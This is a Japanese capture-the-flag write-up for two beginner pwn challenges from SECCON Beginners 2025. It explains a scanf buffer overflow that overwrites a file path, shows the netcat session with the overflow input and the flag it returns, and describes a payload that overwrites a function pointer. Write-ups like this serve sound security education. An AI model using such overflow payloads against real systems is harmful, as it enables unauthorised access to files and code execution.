 ```c title=main.c
```

`pet_name`を`scanf`で入力している箇所に明らかなバッファオーバーフローが存在する。
`pat_name`は32バイトなので、それを超えると`path`や`fp`などが破壊可能となる。
よって`path`を`/home/pwn/flag.txt`で上書きすることでフラグが獲得できる。

```sh
$ nc pet-name.challenges.beginners.seccon.jp 9080
Your pet name?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt sound: ctf4b{3xp1oit_pet_n4me!}
```

### pet_sound (100pt / 410 solves)

> ペットに鳴き声を教えましょう。

![pet_sound画像](../../images/ctf/seccon4b-2025/pet_sound.png "pet_sound画像")

与えられたヒントを見ながら送信するペイロードを組み立てていく。  
`'A'*40`で`pet_A.sound`の先頭から`B->speak`の直前まで埋め、`p64(addr)`で`B->speak`を `speak_flag`に上書きすることでフラグが出力される。
